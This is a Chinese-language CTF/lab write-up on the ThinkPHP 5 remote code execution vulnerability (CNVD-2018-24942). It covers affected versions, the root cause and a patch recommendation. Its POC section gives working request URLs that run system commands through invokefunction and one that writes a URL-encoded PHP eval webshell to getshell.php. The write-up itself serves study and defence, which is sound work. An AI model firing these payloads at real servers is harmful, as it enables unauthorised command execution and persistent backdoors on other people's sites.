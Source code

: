 thinkphp-cnvd_2018_24942

# 前置知识

 ThinkPHP是一个免费开源的，快速、简单的面向对象的轻量级**PHP开发框架**，是为了**敏捷WEB应用开发**和简化企业应用开发而诞生的。ThinkPHP从诞生以来一直秉承简洁实用的设计原则，在保持出色的性能和至简的代码的同时，也注重易用性。

# 影响版本

ThinkPHP 5.*，<5.1.31

ThinkPHP <=5.0.23

# 漏洞原理

ThinkPHP5 存在远程代码执行漏洞。该漏洞由于框架对控制器名未能进行足够的检测，攻击者利用该漏洞对目标网站进行远程命令执行攻击。

# 漏洞利用

1、访问页面

![image-20200824233505828](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20200824233505828.png)

2、构造路径与参数

```
/index.php/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=ls /tmp
```

3、拿到flag

![image-20200824233524903](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20200824233524903.png)

4、POC

/index.php?s=index/\think\app/invokefunction&function=phpinfo&vars[0]=100

/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=pwd

/index.php?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=getshell.php&vars[1][]=%3c%3f%70%68%70%20%40%65%76%61%6c%28%24%5f%50%4f%53%54%5b%27%6c%6f%72%64%73%6b%79%27%5d%29%3b%20%3f%3e

# 漏洞分析

1、thinkphp目录结构

```
├─thinkphp              框架系统目录
│  ├─lang               语言文件目录
│  ├─library            框架类库目录
│  │  ├─think           Think类库包目录
│  │  └─traits          系统Trait目录
│  │
│  ├─tpl                系统模板目录
│  ├─base.php           基础定义文件
│  ├─convention.php     框架惯例配置文件
│  ├─helper.php         助手函数文件
│  └─logo.png           框架LOGO文件
```

2、Web入口

library/think/App.php

该漏洞主要因为php代码中route/dispatch模块没有对URL中的恶意命令进行过滤导致，在没有开启强制路由的情况下，能够造成远程命令执行，包括执行shell命令，调用php函数，写入webshell等。

# 修复建议

更新框架